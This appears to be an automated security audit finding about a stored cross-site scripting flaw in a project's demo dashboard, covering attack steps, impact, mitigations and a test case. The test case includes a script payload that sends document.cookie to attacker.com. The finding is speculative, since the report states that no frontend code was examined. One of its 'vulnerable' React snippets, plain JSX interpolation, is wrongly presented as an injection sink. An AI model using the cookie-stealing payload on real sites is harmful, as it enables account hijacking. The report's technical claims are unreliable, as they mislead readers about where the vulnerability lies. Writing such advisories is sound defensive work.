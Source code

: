 - Vulnerability name: Stored Cross-Site Scripting (XSS) vulnerability in Demo Dashboard
- Description:
    1. An attacker identifies an input field or functionality within the demo dashboard that allows users to input text data (e.g., model name, data description, user feedback form).
    2. The attacker crafts a malicious payload containing JavaScript code. For example: `<script>alert("XSS Vulnerability");</script>`.
    3. The attacker submits this malicious payload through the identified input field or functionality.
    4. The demo dashboard stores this malicious payload in its data storage (potentially in the browser's local storage, or a backend database if implemented).
    5. When another user (or the attacker themselves) accesses a part of the demo dashboard that displays the stored data containing the malicious payload, the JavaScript code is executed by the user's browser.
    6. This occurs because the demo dashboard fails to properly sanitize or encode the stored data before rendering it in the HTML context.
- Impact:
    - **Account Compromise:** An attacker could steal session cookies, allowing them to hijack user accounts and perform actions on behalf of legitimate users.
    - **Data Theft:** Malicious scripts can be used to extract sensitive information displayed on the dashboard or accessible through the user's session and send it to an attacker-controlled server.
    - **Malware Distribution:** The XSS vulnerability could be leveraged to redirect users to malicious websites or inject malware into their systems.
    - **Defacement:** Attackers could alter the appearance of the dashboard, displaying misleading or harmful content to other users.
    - **Denial of Service (Indirect):** By injecting resource-intensive scripts, an attacker could degrade the performance of the dashboard for other users.
- Vulnerability rank: High
- Currently implemented mitigations:
    - There are no currently implemented mitigations visible in the provided project files for XSS vulnerabilities within the demo dashboard's frontend code. The provided files focus on backend logic, smart contracts, and simulation aspects rather than frontend security measures.
- Missing mitigations:
    - **Input Sanitization:** Implement robust input sanitization on the server-side (if a backend service is used to store dashboard data) to remove or neutralize potentially malicious code before storing user-provided data.
    - **Output Encoding:**  Employ proper output encoding (e.g., HTML entity encoding) in the frontend React code when rendering user-provided or data fetched from backend/blockchain in HTML. This ensures that any potentially malicious characters are displayed as text and not executed as code. Libraries like `DOMPurify` can be used for sanitizing HTML content in React.
    - **Content Security Policy (CSP):** Implement a Content Security Policy to restrict the sources from which the dashboard can load resources (scripts, stylesheets, images, etc.). This can significantly reduce the impact of XSS attacks by limiting the actions an attacker can perform even if they manage to inject malicious scripts.
    - **Regular Security Audits and Penetration Testing:** Conduct regular security audits and penetration testing specifically targeting the demo dashboard's frontend to identify and address XSS vulnerabilities proactively.
- Preconditions:
    - A user with malicious intent needs to be able to interact with the demo dashboard and input text data into a field that is subsequently displayed to other users without proper sanitization.
    - The demo dashboard must store the user-provided data and render it in a way that allows JavaScript execution.
    - Users must access the vulnerable part of the demo dashboard after the malicious payload has been stored.
- Source code analysis:
    - As the provided files do not include the frontend code for the demo dashboard, a direct source code analysis to pinpoint the vulnerable location is not possible.
    - However, based on typical React frontend structures and common XSS vulnerability patterns, the vulnerability is likely to be in React components responsible for:
        - Displaying user-generated content or data fetched from an API/blockchain.
        - Using functions like `dangerouslySetInnerHTML` without careful sanitization, which is a common source of XSS in React if used improperly.
        - Rendering data directly from state or props into JSX without proper encoding.
    - Example of potentially vulnerable React code snippet (hypothetical):
      ```jsx
      function DataDisplay({ userData }) {
        return (
          <div>
            <h1>User Data:</h1>
            <div>
              {/* Vulnerable code - directly rendering userData without encoding */}
              <p>{userData}</p>
            </div>
          </div>
        );
      }
      ```
      or using `dangerouslySetInnerHTML`:
      ```jsx
      function DataDisplay({ userDataHTML }) {
        return (
          <div>
            <h1>User Data:</h1>
            {/* Vulnerable code - using dangerouslySetInnerHTML without sanitization */}
            <div dangerouslySetInnerHTML={{ __html: userDataHTML }} />
          </div>
        );
      }
      ```
- Security test case:
    1. Deploy the demo dashboard locally or access a publicly deployed instance if available.
    2. Identify an input field within the dashboard (e.g., a field to name a model, add a description to data, or a feedback/comment section).
    3. In the identified input field, enter the following XSS payload: `<script>alert('XSS Vulnerability Test');</script>`.
    4. Submit the input.
    5. Navigate to the dashboard page where the entered data is displayed. This might be a model details page, a data listing, or a user profile page depending on the dashboard's functionality.
    6. Observe if an alert box with the message "XSS Vulnerability Test" appears in your browser when the page loads or when interacting with the element displaying the injected data.
    7. If the alert box appears, it confirms the presence of a Stored XSS vulnerability.
    8. To further test cookie theft, use the payload: `<script>document.location='http://attacker.com/cookie_steal.php?cookie='+document.cookie</script>` (replace `http://attacker.com/cookie_steal.php` with a server you control to capture cookies). Observe if your cookies are sent to the attacker's server when you access the page displaying the injected data.
    9. If cookies are successfully sent, it further validates the XSS vulnerability and demonstrates a higher severity impact.